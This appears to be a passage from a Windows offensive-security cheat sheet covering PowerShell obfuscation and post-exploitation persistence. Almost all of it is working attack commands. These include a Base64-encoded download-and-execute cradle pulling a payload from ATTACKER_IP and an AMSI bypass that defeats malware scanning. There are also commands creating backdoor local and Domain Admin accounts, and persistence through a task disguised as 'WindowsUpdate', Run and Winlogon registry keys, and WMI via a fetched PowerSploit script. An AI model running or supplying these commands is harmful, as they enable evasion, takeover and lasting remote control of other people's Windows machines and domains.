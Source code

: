 ### Obfuscation Techniques
```powershell
# Base64 encode PowerShell command
$command = "IEX(New-Object Net.WebClient).DownloadString('http://ATTACKER_IP/payload.ps1')"
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
powershell.exe -EncodedCommand $encodedCommand

# Use AMSI bypass
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

## Post-Exploitation

### Maintaining Access

#### Create Backdoor User
```powershell
# Add local administrator
net user evil password123 /add
net localgroup Administrators evil /add

# Add domain user (with domain admin privileges)
net user evil password123 /add /domain
net group "Domain Admins" evil /add /domain
```

#### Scheduled Tasks Persistence
```powershell
# Create daily task for persistence
schtasks /create /sc daily /tn "WindowsUpdate" /tr "powershell.exe -WindowStyle hidden -c 'IEX(New-Object Net.WebClient).DownloadString(''http://ATTACKER_IP/payload.ps1'')'" /st 12:00 /ru System
```

#### Registry Persistence
```powershell
# Run key
reg add "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" /v Backdoor /t REG_SZ /d "powershell.exe -WindowStyle hidden -c 'IEX(New-Object Net.WebClient).DownloadString(''http://ATTACKER_IP/payload.ps1'')'"

# Winlogon Helper
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" /v Userinit /t REG_SZ /d "C:\Windows\system32\userinit.exe,powershell.exe -WindowStyle hidden -c 'IEX(New-Object Net.WebClient).DownloadString(''http://ATTACKER_IP/payload.ps1'')'"

# WMI event subscription
powershell -ep bypass -c "IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/mattifestation/PowerSploit/master/Persistence/Persistence.psm1'); Install-EventPersistence"
```
